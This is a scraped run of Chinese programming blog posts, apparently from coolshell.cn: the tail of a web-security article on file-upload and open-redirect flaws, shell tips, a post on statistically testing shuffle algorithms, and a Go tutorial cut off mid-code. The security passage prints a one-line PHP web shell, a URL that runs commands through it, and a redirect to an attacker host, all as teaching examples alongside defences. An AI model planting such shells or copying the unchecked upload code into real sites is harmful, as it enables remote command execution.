<**form** action="upload_picture.php" method="post" enctype="multipart/form-data">

要上传的文件:

<**input** type="file" name="filename"/>

<**br**/>

<**input** type="submit" name="submit" value="Submit"/>

</**form**>


 


**$target** = "pictures/" . basename(**$_FILES[**'uploadedfile']['name']);

**if**(move_uploaded_file(**$_FILES[**'uploadedfile']['tmp_name'], **$target**)){

​    **echo** "图片文件上传成功";

}**else**{</div>

​    **echo** "图片文件上传失败";

}


假如我上传了一个PHP文件如下：


<?php

system(**$_GET[**'cmd']);

?>


那么，我就可以通过如下的URL访问攻击你的网站了：


http://server.example.com/upload_dir/malicious.php?cmd=ls%20-l


抵御这样的攻击有两种手段：

1）限制上传文件的文件扩展名。

2）千万不要使用root或Administrator来运行你的Web应用。

#### URL跳转

URL跳转很有可能会成为攻击利用的工具。

比如下面的PHP代码：


**$redirect_url** = **$_GET[**'url'];

header("Location: " . **$redirect_url**);


这样的代码可能很常见，比如当用户在访问你的网站某个页观的时候没有权限，于是你的网站跳转到登录页面，当然登录完成后又跳转回刚才他访问的那个页面。一般来说，我们都会在跳转到登录页面时在URL里加上要被跳转过去的网页。于是会出现上述那样的代码。

于是我们就可以通过下面的URL，跳转到一个恶意网站上，而那个网站上可能有一段CSRF的代码在等着你，或是一个钓鱼网站。


http://bank.example.com/redirect?url=http://attacker.example.net


这种攻击具有的迷惑性在于，用户看到的http://bank.example.com，**以为是一个合法网站，于是就点了这个链接，结果通过这个合法网站，把用户带到了一个恶意网站，而这个恶意网站上可能把页面做得跟这个合法网站一模一样，你还以为访问的是正确的地方，结果就被钓鱼了**。

解决这个问题很简单，你需要在你的后台判断一下传过来的URL的域名是不是你自己的域名。

你可以看看Google和Baidu搜索引擎的链接跳转，百度的跳转链接是被加密过的，而Google的网站链接很长，里面有网站的明文，但是会有几个加密过的参数，如果你把那些参数移除掉，Google会显示一个重定向的提醒页面。（我个人觉得还是Google做得好）

（本篇文章结束）

这段时间工作和家里的事比较多，所以时间有限，更新不快，而此篇行文比较仓促，欢迎大家补充，并指出我文中的问题。

# 你可能不知道的SHELL

#####  [2012年11月23日 ](https://coolshell.cn/articles/8619.html) [404null](https://coolshell.cn/articles/author/404null) 评论 [149 条评论](https://coolshell.cn/articles/8619.html#comments) 139,471 人阅读

Shell也叫做命令行界面，它是*nix操作系统下用户和计算机的交互界面。Shell这个词是指操作系统中提供访问内核服务的程序。

这篇文章向大家介绍Shell一些非广为人知、但却实用有趣的知识，权当品尝shell主食后的甜点吧。

#### 科普

先科普几个你可能不知道的事实：

- Shell几乎是和Unix操作系统一起诞生，第一个Unix Shell是肯·汤普逊（Ken Thompson）以Multics上的Shell为模范在1971年改写而成，并命名Thompson sh。即便是后来流行的bash（shell的一种变体），它的年龄实际上比当前流行的所有的Linux kernel都大，可谓在Linux系统上是先有Shell再有Kernel。

- 当前绝大部分*nix和MacOS操作系统里的默认的Shell都是bash，bash由Brian Fox在1987年创造，全称Bourne Again shell ( bash)。

- 你或许听说除了bash之外，还有Bourne shell ( sh)，Korn shell ( ksh)，C shell （包括 csh and tcsh），但是你知道这个星球上一共存在着大约50多种不同的shell么？想了解他们，请参考 http://www.freebsd.org/ports/shells.html。

- 每个月[tiobe](http://www.tiobe.com/index.php/content/paperinfo/tpci/index.html)上都会给一个编程语言的排名，来显示各种语言的流行度。排名指数综合了全球范围内使用该语言的工程师人数、教学的课程数和第三方供应商数。截止至2012年11月份，tiobe公布的编程语言排行榜里，bash的指数是0.56%排名22位。如果算上它旗下的awk 0.21%和tcl 0.146%，大概就能排到14名。注意这里还不包括bash的同源的兄弟姐妹csh、ksh等，算上它们，shell家族有望接近前十。值得一提的是一直以来shell的排名就很稳定，不像某些“暴发户”语言，比如objective-c，这些语言的流行完全是因为当前Apple系的崛起，但这种热潮极有可能来得快去得更快。


 

全球最大的源代码仓库Github里，shell相关的项目数占到了8%，跻身前5和Java相当，可见在实战工程里，shell可谓宝刀不老。图片来源，[参见这里](https://github.com/languages)


#### 一些强大的命令

再分享一些可能你不知道的shell用法和脚本，简单&强大！

*在阅读以下部分前，强烈建议读者打开一个shell实验，这些都不是shell教科书里的大路货哦：）*

- `!$`

  ```
  !$
  ```

  是一个特殊的环境变量，它代表了上一个命令的最后一个字符串。如：你可能会这样：

  

  ```
  $mkdir mydir
  $mv mydir yourdir
  $cd yourdir
  ```

  可以改成：

  ```
  $mkdir mydir
  $mv !$ yourdir
  $cd !$
  ```

- **`sudo !!`**
  以root的身份执行上一条命令 。
  场景举例：比如Ubuntu里用`apt-get`安装软件包的时候是需要root身份的，我们经常会忘记在`apt-get`前加`sudo`。每次不得不加上`sudo`再重新键入这行命令，这时可以很方便的用`sudo !!`完事。
  （陈皓注：在shell下，有时候你会输入很长的命令，你可以使用!xxx来重复最近的一次命令，比如，你以前输入过，vi /where/the/file/is, 下次你可以使用 !vi 重得上次最近一次的vi命令。）

- **`cd –`**
  回到上一次的目录 。
  场景举例：当前目录为`/home/a`，用`cd ../b`切换到`/home/b`。这时可以通过反复执行`cd –`命令在`/home/a`和`/home/b`之间来回方便的切换。
  （陈皓注：cd ~ 是回到自己的Home目录，cd ~user，是进入某个用户的Home目录）

- **`'ALT+.' or '<ESC> .'`**
  热建alt+. 或 esc+. 可以把上次命令行的参数给重复出来。

- **`^old^new`**
  替换前一条命令里的部分字符串。
  场景：`echo "wanderful"`，其实是想输出`echo "wonderful"`。只需要`^a^o`就行了，对很长的命令的错误拼写有很大的帮助。（陈皓注：也可以使用 **!!:gs/old/new**）

- **`du -s \* | sort -n | tail`**
  列出当前目录里最大的10个文件。

- **`:w !sudo tee %`**
  在vi中保存一个只有root可以写的文件

- **`date -d@1234567890`**
  时间截转时间

- **`> file.txt`**
  创建一个空文件，比touch短。

- **`mtr coolshell.cn`**
  mtr命令比traceroute要好。

- 在命令行前加空格，该命令不会进入history里。

- **`echo "ls -l" | at midnight`**
  在某个时间运行某个命令。

- **`curl -u user:pass -d status="Tweeting from the shell" http://twitter.com/statuses/update.xml`**
  命令行的方式更新twitter。

- **`curl -u username --silent "https://mail.google.com/mail/feed/atom" | perl -ne 'print "\t" if /<name>/; print "$2\n" if /<(title|name)>(.\*)<\/\1>/;'`**
  检查你的gmail未读邮件

- **`ps aux | sort -nk +4 | tail`**
  列出头十个最耗内存的进程

- **`man ascii`**
  显示ascii码表。
  场景：忘记ascii码表的时候还需要google么?尤其在天朝网络如此“顺畅”的情况下，就更麻烦在GWF多应用一次规则了，直接用本地的`man ascii`吧。

- **`ctrl-x e`**
  快速启动你的默认编辑器（由变量$EDITOR设置）。

- **`netstat –tlnp`**
  列出本机进程监听的端口号。（陈皓注：netstat -anop 可以显示侦听在这个端口号的进程）

- **`tail -f /path/to/file.log | sed '/^Finished: SUCCESS$/ q'`**
  当file.log里出现Finished: SUCCESS时候就退出tail，这个命令用于实时监控并过滤log是否出现了某条记录。

- **`ssh user@server bash < /path/to/local/script.sh`**
  在远程机器上运行一段脚本。这条命令最大的好处就是不用把脚本拷到远程机器上。

- **`ssh user@host cat /path/to/remotefile | diff /path/to/localfile -`**
  比较一个远程文件和一个本地文件

- **`net rpc shutdown -I ipAddressOfWindowsPC -U username%password`**
  远程关闭一台Windows的机器

- **`screen -d -m -S some_name ping my_router`**
  后台运行一段不终止的程序，并可以随时查看它的状态。`-d -m`参数启动“分离”模式，`-S`指定了一个session的标识。可以通过`-R`命令来重新“挂载”一个标识的session。更多细节请参考screen用法 `man screen`。

- **`wget --random-wait -r -p -e robots=off -U mozilla http://www.example.com`**
  下载整个www.example.com网站。（注：别太过分，大部分网站都有防爬功能了：））

- **`curl ifconfig.me`**
  当你的机器在内网的时候，可以通过这个命令查看外网的IP。

- **`convert input.png -gravity NorthWest -background transparent -extent 720x200 output.png`**
  改一下图片的大小尺寸

- **`lsof –i`**
  实时查看本机网络服务的活动状态。

- **`vim scp://username@host//path/to/somefile`**
  vim一个远程文件

- **`python -m SimpleHTTPServer`**
  一句话实现一个HTTP服务，把当前目录设为HTTP服务目录，可以通过`http://localhost:8000`访问 这也许是这个星球上最简单的HTTP服务器的实现了。

- **`history | awk '{CMD[$2]++;count++;} END { for (a in CMD )print CMD[a] " " CMD[a]/count\*100 "% " a }' | grep -v "./" | column -c3 -s " " -t | sort -nr | nl | head -n10`**
  (陈皓注：有点复杂了，history|awk ‘{print $2}’|awk ‘BEGIN {FS=”|”} {print $1}’|sort|uniq -c|sort -rn|head -10)
  这行脚本能输出你最常用的十条命令，由此甚至可以洞察你是一个什么类型的程序员。

- **`tr -c "[:digit:]" " " < /dev/urandom | dd cbs=$COLUMNS conv=unblock | GREP_COLOR="1;32" grep --color "[^ ]"`**
  想看看Marix的屏幕效果吗？（不是很像，但也很Cool!）

看不懂行代码？没关系，系统的学习一下*nix shell脚本吧，力荐[《Linux命令行与Shell脚本编程大全》](http://www.ituring.com.cn/book/980)。

# 如何测试洗牌程序

#####  [2012年11月20日 ](https://coolshell.cn/articles/8593.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [142 条评论](https://coolshell.cn/articles/8593.html#comments) 92,236 人阅读

我希望本文有助于你了解测试软件是一件很重要也是一件不简单的事。

我们有一个程序，叫ShuffleArray()，是用来洗牌的，我见过N多千变万化的ShuffleArray()，但是似乎从来没人去想过怎么去测试这个算法。所以，我在面试中我经常会问应聘者如何测试ShuffleArray()，没想到这个问题居然难倒了很多有多年编程经验的人。对于这类的问题，其实，测试程序可能比算法更难写，代码更多。而这个问题正好可以加强一下我在《[我们需要专职的QA吗？](https://coolshell.cn/articles/6994.html)》中我所推崇的——开发人员更适合做测试的观点。

我们先来看几个算法（**第一个用递归二分随机抽牌，第二个比较偷机取巧，第三个比较通俗易懂**）

目录


[递归二分随机抽牌](https://coolshell.cn/articles/8593.html#递归二分随机抽牌)[快排Hack法](https://coolshell.cn/articles/8593.html#快排Hack法)[大多数人的实现](https://coolshell.cn/articles/8593.html#大多数人的实现)[如何测试](https://coolshell.cn/articles/8593.html#如何测试)[正确的算法](https://coolshell.cn/articles/8593.html#正确的算法)[如何写测试案例](https://coolshell.cn/articles/8593.html#如何写测试案例)[注意](https://coolshell.cn/articles/8593.html#注意)[附录](https://coolshell.cn/articles/8593.html#附录)

#### 递归二分随机抽牌

有一次是有一个朋友做了一个网页版的扑克游戏，他用到的算法就是想模拟平时我们玩牌时用手洗牌的方式，是用递归+二分法，我说这个程序恐怕不对吧。他觉得挺对的，说测试了没有问题。他的程序大致如下（原来的是用Javascript写的，我在这里凭记忆用C复现一下）：

```
//递归二分方法
const size_t MAXLEN = 10;
const char TestArr[MAXLEN] = {'A','B','C','D','E','F','G','H','I','J'};

static char RecurArr[MAXLEN]={0};
static int cnt = 0;
void ShuffleArray_Recursive_Tmp(char* arr, int len)
{
    if(cnt > MAXLEN || len <=0){
        return;
    }

    int pos = rand() % len;
    RecurArr[cnt++] = arr[pos];
    if (len==1) return;
    ShuffleArray_Recursive_Tmp(arr, pos);
    ShuffleArray_Recursive_Tmp(arr+pos+1, len-pos-1);
}

void ShuffleArray_Recursive(char* arr, int len)
{
    memset(RecurArr, 0, sizeof(RecurArr));
    cnt=0;
    ShuffleArray_Recursive_Tmp(arr, len);
    memcpy(arr, RecurArr, len);
}

void main()
{
    char temp[MAXLEN]={0};
    for(int i=0; i<5; i++) {
        strncpy(temp, TestArr, MAXLEN);
        ShuffleArray_Recursive((char*)temp, MAXLEN);
    }
}
```


随便测试几次，还真像那么回事：

```
第一次：D C A B H E G F I J
第二次：A G D B C E F J H I
第三次：A B H F C E D G I J
第四次：J I F B A D C E H G
第五次：F B A D C E H G I J
```

#### 快排Hack法

让我们再看一个hack 快排的洗牌程序（只看算法，省去别的代码）：

```
int compare( const void *a, const void *b )
{
    return rand()%3-1;
}

void ShuffleArray_Sort(char* arr, int len)
{
    qsort( (void *)arr, (size_t)len, sizeof(char), compare );
}
```

运行个几次，感觉得还像那么回事：

```
第一次：H C D J F E A G B I
第二次：B F J D C E I H G A
第三次：C G D E J F B I A H
第四次：H C B J D F G E I A
第五次：D B C F E A I H G J
```

看不出有什么破绽。

#### 大多数人的实现

下面这个算法是大多数人的实现，就是for循环一次，然后随机交换两个数

```
void ShuffleArray_General(char* arr, int len)
{
    const int suff_time = len;
    for(int idx=0; idx<suff_time; idx++) {
        int i = rand() % len;
        int j = rand() % len;
        char temp = arr[i];
        arr[i] = arr[j];
        arr[j] = temp;
    }
}
```

跑起来也还不错，洗得挺好的。

```
第一次：G F C D A J B I H E
第二次：D G J F E I A H C B
第三次：C J E F A D G B H I
第四次：H D C F A E B J I G
第五次：E A J F B I H G D C
```

但是上述三个算法哪个的效果更好？好像都是对的。**一般的QA或是程序员很有可能就这样把这个功能Pass了**。但是事情并没有那么简单……

#### 如何测试

在做测试之前，我们还需要了解一下一个基本知识——**PC机上是做不出真随机数的，只能做出伪随机数。真随机数需要硬件支持**。但是不是这样我们就无法测试了呢，不是的。我们依然可以测试。

我们知道，洗牌洗得好不好，主要是看是不是够随机。那么如何测试随机性呢？

试想，我们有个随机函数rand()返回1到10中的一个数，如果够随机的话，每个数返回的概率都应该是一样的，也就是说每个数都应该有10分之1的概率会被返回。

一到概率问题，我们只有一个方法来做测试，那就是用统计的方式。也就是说，你调用rand()函数100次，其中，每个数出现的次数大约都在10次左右。（注意：我用了左右，这说明概率并不是很准确的）不应该有一个数出现了15次以上，另一个在5次以下，要是这样的话，这个函数就是错的。

举一反三，测试洗牌程序也一样，需要通过概率的方式来做统计，是不是每张牌出现在第一个位置的次数都是差不多的。

于是，这样一来上面的程序就可以很容易做测试了。

下面是测试结果（**测试样本1000次——列是每个位置出现的次数，行是各个字符的统计**，出现概率应该是1/10，也就是100次）：

**递归随机抽牌的方法**

很明显，这个洗牌程序太有问题。算法是错的！

```
     1    2    3    4    5    6    7    8    9    10
----------------------------------------------------
A | 101  283  317  208   65   23    3    0    0    0
B | 101  191  273  239  127   54   12    2    1    0
C | 103  167  141  204  229  115   32    7    2    0
D | 103  103   87  128  242  195  112   26    3    1
E | 104   83   62   67  116  222  228   93   22    3
F |  91   58   34   60   69  141  234  241   65    7
G |  93   43   35   19   44  102  174  274  185   31
H |  94   28   27   27   46   68   94  173  310  133
I | 119   27   11   30   28   49   64   96  262  314
J |  91   17   13   18   34   31   47   88  150  511
```

**快排Hack法**

看看对角线（从左上到右下）上的数据，很离谱！所以，这个算法也是错的。

```
      1    2    3    4    5    6    7    8    9    10
-----------------------------------------------------
A |   74  108  123  102   93  198   40   37   52  173
B |  261  170  114   70   49   28   37   76  116   79
C |  112  164  168  117   71   37   62   96  116   57
D |   93   91  119  221  103   66   91   98   78   40
E |   62   60   82   90  290  112   95   98   71   40
F |   46   60   63   76   81  318   56   42   70  188
G |   72   57   68   77   83   39  400  105   55   44
H |   99   79   70   73   87   34  124  317   78   39
I |  127  112  102   90   81   24   57   83  248   76
J |   54   99   91   84   62  144   38   48  116  264
```

**大多数人的算法**

我们再来看看大多数人的算法。还是对角线上的数据有问题，所以，还是错的。

```
      1    2    3    4    5    6    7    8    9    10
-----------------------------------------------------
A |  178   98   92   82  101   85   79  105   87   93
B |   88  205   90   94   77   84   93   86  106   77
C |   93   99  185   96   83   87   98   88   82   89
D |  105   85   89  190   92   94  105   73   80   87
E |   97   74   85   88  204   91   80   90  100   91
F |   85   84   90   91   96  178   90   91  105   90
G |   81   84   84  104  102  105  197   75   79   89
H |   84   99  107   86   82   78   92  205   79   88
I |  102   72   88   94   87  103   94   92  187   81
J |   87  100   90   75   76   95   72   95   95  215
```

#### 正确的算法

下面，我们来看看性能高且正确的算法—— [Fisher_Yates算法](https://en.wikipedia.org/wiki/Fisher–Yates_shuffle)

```
void ShuffleArray_Fisher_Yates(char* arr, int len)
{
    int i = len, j;
    char temp;

    if ( i == 0 ) return;
    while ( --i ) {
        j = rand() % (i+1);
        temp = arr[i];
        arr[i] = arr[j];
        arr[j] = temp;
    }
}
```

这个算法不难理解，看看测试效果（效果明显比前面的要好）：

```
      1    2    3    4    5    6    7    8    9    10
-----------------------------------------------------
A |  107   98   83  115   89  103  105   99   94  107
B |   91  106   90  102   88  100  102   97  112  112
C |  100  107   99  108  101   99   86   99  101  100
D |   96   85  108  101  117  103  102   96  108   84
E |  106   89  102   86   88  107  114  109  100   99
F |  109   96   87   94   98  102  109  101   92  102
G |   94   95  119  110   97  112   89  101   89   94
H |   93  102  102  103  100   89  107  105  101   98
I |   99  110  111  101  102   79  103   89  104  102
J |  105  112   99   99  108  106   95   95   99   82
```

但是我们可以看到还是不完美。因为我们使用的rand()是伪随机数，不过已经很不错的。最大的误差在20%左右。

我们再来看看洗牌100万次的统计值，你会看到误差在6%以内了。这个对于伪随机数生成的程序已经很不错了。

```
      1       2     3       4      5      6      7      8     9      10
-------------------------------------------------------------------------
A | 100095  99939 100451  99647  99321 100189 100284  99565 100525  99984
B |  99659 100394  99699 100436  99989 100401  99502 100125 100082  99713
C |  99938  99978 100384 100413 100045  99866  99945 100025  99388 100018
D |  99972  99954  99751 100112 100503  99461  99932  99881 100223 100211
E | 100041 100086  99966  99441 100401  99958  99997 100159  99884 100067
F | 100491 100294 100164 100321  99902  99819  99449 100130  99623  99807
G |  99822  99636  99924 100172  99738 100567 100427  99871 100125  99718
H |  99445 100328  99720  99922 100075  99804 100127  99851 100526 100202
I | 100269 100001  99542  99835 100070  99894 100229 100181  99718 100261
J | 100268  99390 100399  99701  99956 100041 100108 100212  99906 100019
```

#### 如何写测试案例

测试程序其实很容易写了。就是，设置一个样本大小，做一下统计，然后计算一下误差值是否在可以容忍的范围内。比如：

- 样本：100万次
- 最大误差：10%以内
- 平均误差：5%以内 （或者：90%以上的误差要小于5%）

#### 注意

其实，以上的测试只是测试了牌在各个位置的概率。这个还不足够好。因为还可能会现在有Patten的情况。如：每次洗牌出来的都是一个循环顺序数组。这完全可以满足我上面的测试条件。但是那明显是错的。**所以，还需要统计每种排列的出现的次数**，看看是不是均匀。但是，**如果这些排列又是以某种规律出现的呢**？看来，这没完没了了。

测试的确是一个很重要，并不简单的事情。谢谢所有参与讨论的人。

#### 附录

之前忘贴了一个模拟我们玩牌洗牌的算法，现补充如下：

```
void ShuffleArray_Manual(char* arr, int len)
{
    int mid = len / 2;

    for (int n=0; n<5; n++){

        //两手洗牌
        for (int i=1; i<mid; i+=2){
            char tmp = arr[i];
            arr[i] = arr[mid+i];
            arr[mid+i] = tmp;
        }

        //随机切牌
        char *buf = (char*)malloc(sizeof(char)*len);

        for(int j=0; j<5; j++) {
            int start= rand() % (len-1) + 1;
            int numCards= rand()% (len/2) + 1;

            if (start + numCards > len ){
                numCards = len - start;
            }

            memset(buf, 0, len);
            strncpy(buf, arr, start);
            strncpy(arr, arr+start, numCards);
            strncpy(arr+numCards, buf, start);
        }
        free(buf);

    }
}
```

我们来看看测试结果：（10万次）效果更好一些，误差在2%以内了。

```
      1       2     3       4      5      6      7      8     9      10
-------------------------------------------------------------------------
A |  10002   9998   9924  10006  10048  10200   9939   9812  10080   9991
B |   9939   9962  10118  10007   9974  10037  10149  10052   9761  10001
C |  10054  10100  10050   9961   9856   9996   9853  10016   9928  10186
D |   9851   9939   9852  10076  10208  10003   9974  10052   9992  10053
E |  10009   9915  10050  10037   9923  10094  10078  10059   9880   9955
F |  10151  10115  10113   9919   9844   9896   9891   9904  10225   9942
G |  10001  10116  10097  10030  10061   9993   9891   9922   9889  10000
H |  10075  10033   9866   9857  10170   9854  10062  10078  10056   9949
I |  10045   9864   9879  10066   9930   9919  10085  10104  10095  10013
J |   9873   9958  10051  10041   9986  10008  10078  10001  10094   9910
```

（全文完）

​	GO 语言简介（上）— 语法

#####  [2012年11月06日 ](https://coolshell.cn/articles/8460.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [135 条评论](https://coolshell.cn/articles/8460.html#comments) 171,303 人阅读

周末天气不好，只能宅在家里，于是就顺便看了一下Go语言，觉得比较有意思，所以写篇文章介绍一下。**我想写一篇你可以在乘坐地铁或公交车上下班时就可以初步了解一门语言的文章**。所以，下面的文章主要是以代码和注释为主。只需要你对C语言，Unix，Python有一点基础，我相信你会在30分钟左右读完并对Go语言有一些初步了解的。


目录


[Hello World](https://coolshell.cn/articles/8460.html#Hello_World)[运行](https://coolshell.cn/articles/8460.html#运行)[自己的package](https://coolshell.cn/articles/8460.html#自己的package)[fmt输出格式](https://coolshell.cn/articles/8460.html#fmt输出格式)[变量和常量](https://coolshell.cn/articles/8460.html#变量和常量)[数组](https://coolshell.cn/articles/8460.html#数组)[数组的切片操作](https://coolshell.cn/articles/8460.html#数组的切片操作)[分支循环语句](https://coolshell.cn/articles/8460.html#分支循环语句)[关于分号](https://coolshell.cn/articles/8460.html#关于分号)[map](https://coolshell.cn/articles/8460.html#map)[指针](https://coolshell.cn/articles/8460.html#指针)[内存分配](https://coolshell.cn/articles/8460.html#内存分配)[函数](https://coolshell.cn/articles/8460.html#函数)[结构体](https://coolshell.cn/articles/8460.html#结构体)[结构体方法](https://coolshell.cn/articles/8460.html#结构体方法)[接口和多态](https://coolshell.cn/articles/8460.html#接口和多态)[错误处理 – Error接口](https://coolshell.cn/articles/8460.html#错误处理_–_Error接口)[错误处理 – Defer](https://coolshell.cn/articles/8460.html#错误处理_–_Defer)[错误处理 – Panic/Recover](https://coolshell.cn/articles/8460.html#错误处理_–_PanicRecover)

#### Hello World

```
//文件名：hello.go
package main //声明本文件的package名

import "fmt" //import语言的fmt库——用于输出

func main() {
    fmt.Println("hello world")
}
```


#### 运行

你可以有两种运行方式，

```
#解释执行（实际是编译成a.out再执行）
$go run hello.go
hello world

#编译执行
$go build hello.go

$ls
hello hello.go

$./hello
hello world
```

#### 自己的package

你可以使用GOPATH环境变量，或是使用相对路径来import你自己的package。

Go的规约是这样的：

1）**在import中，你可以使用相对路径，如 ./或 ../ 来引用你的package**

2）**如果没有使用相对路径，那么，go会去找$GOPATH/src/目录。**

```
//使用相对路径
import "./haoel"  //import当前目录里haoel子目录里的所有的go文件
//使用GOPATH路径
import "haoel"  //import 环境变量 $GOPATH/src/haoel子目录里的所有的go文件
```

#### fmt输出格式

fmt包和libc里的那堆使用printf， scanf，fprintf，fscanf 很相似。下面的东西对于C程序员不会陌生。

注意：Println不支持，Printf才支持%式的输出：

```
package main

import "fmt"
import "math"

func main() {
    fmt.Println("hello world")

    fmt.Printf("%t\n", 1==2)
    fmt.Printf("二进制：%b\n", 255)
    fmt.Printf("八进制：%o\n", 255)
    fmt.Printf("十六进制：%X\n", 255)
    fmt.Printf("十进制：%d\n", 255)
    fmt.Printf("浮点数：%f\n", math.Pi)
    fmt.Printf("字符串：%s\n", "hello world")
}
```

当然，也可以使用如\n\t\r这样的和C语言一样的控制字符

#### 变量和常量

变量的声明很像 javascript，使用 var关键字。注意：**go是静态类型的语言**，下面是代码：

```
//声明初始化一个变量
var  x int = 100
var str string = "hello world"</pre>
//声明初始化多个变量
var  i, j, k int = 1, 2, 3

//不用指明类型，通过初始化值来推导
var b = true //bool型
```

还有一种定义变量的方式（这让我想到了Pascal语言，但完全不一样）

```
x := 100 //等价于 var x int = 100;
```

常量很简单，使用const关键字：

```
const s string = "hello world"
const pi float32 = 3.1415926
```

#### 数组

直接看代码（注意其中的for语句，和C很相似吧，就是没有括号了）

```
func main() {
    var a [5]int
    fmt.Println("array a:", a)

    a[1] = 10
    a[3] = 30
    fmt.Println("assign:", a)

    fmt.Println("len:", len(a))

    b := [5]int{1, 2, 3, 4, 5}
    fmt.Println("init:", b)

    var c [2][3]int
    for i := 0; i < 2; i++ {
        for j := 0; j < 3; j++ {
            c[i][j] = i + j
        }
    }
    fmt.Println("2d: ", c)
}
```

运行结果：

```
array a: [0 0 0 0 0]
assign: [0 10 0 30 0]
len: 5
init: [1 2 3 4 5]
2d:  [[0 1 2] [1 2 3]]
```

#### 数组的切片操作

这个很Python了。

```
a := [5]int{1, 2, 3, 4, 5}

b := a[2:4] // a[2] 和 a[3]，但不包括a[4]
fmt.Println(b)

b = a[:4] // 从 a[0]到a[4]，但不包括a[4]
fmt.Println(b)

b = a[2:] // 从 a[2]到a[4]，且包括a[2]
fmt.Println(b)
```

**但是，我们要记住，Golang的切片是共享内存的，也就是说，没有数据的复制，只是记录从哪切到哪的信息。**

#### 分支循环语句

**if语句**

注意：if 语句没有圆括号，而必需要有花括号

```
//if 语句
if x % 2 == 0 {
    //...
}
//if - else
if x % 2 == 0 {
    //偶数...
} else {
    //奇数...
}

//多分支
if num < 0 {
    //负数
} else if num == 0 {
    //零
} else {
    //正数
}
```

**switch 语句**

注意：switch语句没有break，还可以使用逗号case多个值

```
switch i {
    case 1:
        fmt.Println("one")
    case 2:
        fmt.Println("two")
    case 3:
        fmt.Println("three")
    case 4,5,6:
        fmt.Println("four, five, six")
    default:
        fmt.Println("invalid value!")
}
```

**for 语句**

前面你已见过了，下面再来看看for的三种形式：（注意：Go语言中没有while）

```
//经典的for语句 init; condition; post
for i := 0; i<10; i++{
     fmt.Println(i)
}

//精简的for语句 condition
i := 1
for i<10 {
    fmt.Println(i)
    i++
}

//死循环的for语句 相当于for(;;)
i :=1
for {
    if i>10 {
        break
    }
    i++
}
```

#### 关于分号

从上面的代码我们可以看到代码里没有分号。其实，**和C一样，Go的正式的语法使用分号来终止语句。和C不同的是，这些分号由词法分析器在扫描源代码过程中使用简单的规则自动插入分号，因此输入源代码多数时候就不需要分号了**。

规则是这样的：如果在一个新行前方的最后一个标记是一个标识符（包括像`int`和`float64`这样的单词）、一个基本的如数值这样的文字、或以下标记中的一个时，会自动插入分号：

```
break continue fallthrough return ++ -- ) }
```

通常Go程序仅在`for`循环语句中使用分号，以此来分开初始化器、条件和增量单元。如果你在一行中写多个语句，也需要用分号分开。

**注意**：**无论任何时候，你都不应该将一个控制结构（(`if`、`for`、`switch`或`select`）的左大括号放在下一行。如果这样做，将会在大括号的前方插入一个分号，这可能导致出现不想要的结果**。

#### map

map在别的语言里可能叫哈希表或叫dict，下面是和map的相关操作的代码，代码很容易懂

```
func main(){
    m := make(map[string]int) //使用make创建一个空的map

    m["one"] = 1
    m["two"] = 2
    m["three"] = 3

    fmt.Println(m) //输出 map[three:3 two:2 one:1] (顺序在运行时可能不一样)
    fmt.Println(len(m)) //输出 3

    v := m["two"] //从map里取值
    fmt.Println(v) // 输出 2

    delete(m, "two")
    fmt.Println(m) //输出 map[three:3 one:1]

    m1 := map[string]int{"one": 1, "two": 2, "three": 3}
    fmt.Println(m1) //输出 map[two:2 three:3 one:1] (顺序在运行时可能不一样)

    for key, val := range m1{
        fmt.Printf("%s => %d \n", key, val)
        /*输出：(顺序在运行时可能不一样)
            three => 3
            one => 1
            two => 2*/
    }
}
```

#### 指针

Go语言一样有指针，看代码

```
var i int = 1
var pInt *int = &i
//输出：i=1     pInt=0xf8400371b0       *pInt=1
fmt.Printf("i=%d\tpInt=%p\t*pInt=%d\n", i, pInt, *pInt)

*pInt = 2
//输出：i=2     pInt=0xf8400371b0       *pInt=2
fmt.Printf("i=%d\tpInt=%p\t*pInt=%d\n", i, pInt, *pInt)

i = 3
//输出：i=3     pInt=0xf8400371b0       *pInt=3
fmt.Printf("i=%d\tpInt=%p\t*pInt=%d\n", i, pInt, *pInt)
```

Go具有两个分配内存的机制，分别是内建的函数new和make。他们所做的事不同，所应用到的类型也不同，这可能引起混淆，但规则却很简单。

#### **内存分配**

**new** 是一个分配内存的内建函数，但不同于其他语言中同名的new所作的工作，**它只是将内存清零，而不是初始化内存**。new(T)为一个类型为T的新项目分配了值为零的存储空间并返回其地址，也就是一个类型为*T的值。用Go的术语来说，就是**它返回了一个指向新分配的类型为T的零值的指针**。

`**make**(T, `*args*`)`函数的目的与`new(T)`不同。它仅用于创建切片、map和chan（消息管道），并返回类型`T`（不是`*T`）的一个**被初始化了的**（不是**零**）实例。这种差别的出现是由于这三种类型实质上是对在使用前必须进行初始化的数据结构的引用。例如，切片是一个具有三项内容的描述符，包括指向数据（在一个数组内部）的指针、长度以及容量，在这三项内容被初始化之前，切片值为`nil`。对于切片、映射和信道，`make`初始化了其内部的数据结构并准备了将要使用的值。如：

下面的代码分配了一个整型数组，长度为10，容量为100，并返回前10个数组的切片

```
make([]int, 10, 100)
```

以下示例说明了`new`和`make`的不同。

```
var p *[]int = new([]int)   // 为切片结构分配内存；*p == nil；很少使用
var v  []int = make([]int, 10) // 切片v现在是对一个新的有10个整数的数组的引用

// 不必要地使问题复杂化：
var p *[]int = new([]int)
fmt.Println(p) //输出：&[]
*p = make([]int, 10, 10)
fmt.Println(p) //输出：&[0 0 0 0 0 0 0 0 0 0]
fmt.Println((*p)[2]) //输出： 0

// 习惯用法:
v := make([]int, 10)
fmt.Println(v) //输出：[0 0 0 0 0 0 0 0 0 0]
```

#### 函数

老实说，我对Go语言这种反过来声明变量类型和函数返回值的做法有点不满（保持和C一样的不可以吗? 呵呵）

```
package main
import "fmt"

func max(a int, b int) int { //注意参数和返回值是怎么声明的

    if a > b {
        return a
    }
    return b
}

func main(){
    fmt.Println(max(4, 5))
}
```

**函数返回多个值**

Go中很多Package 都会返回两个值，一个是正常值，一个是错误，如下所示：

```
package main
import "fmt"

func main(){
    v, e := multi_ret("one")
    fmt.Println(v,e) //输出 1 true

    v, e = multi_ret("four")
    fmt.Println(v,e) //输出 0 false

    //通常的用法(注意分号后有e)
    if v, e = multi_ret("four"); e {
        // 正常返回
    }else{
        // 出错返回
    }
}

func multi_ret(key string) (int, bool){
    m := map[string]int{"one": 1, "two": 2, "three": 3}

    var err bool
    var val int

    val, err = m[key]

    return val, err
}
```

**函数不定参数**

例子很清楚了，我就不多说了

```
func sum(nums ...int) {
    fmt.Print(nums, " ")  //输出如 [1, 2, 3] 之类的数组
    total := 0
    for _, num := range nums { //要的是值而不是下标
        total += num
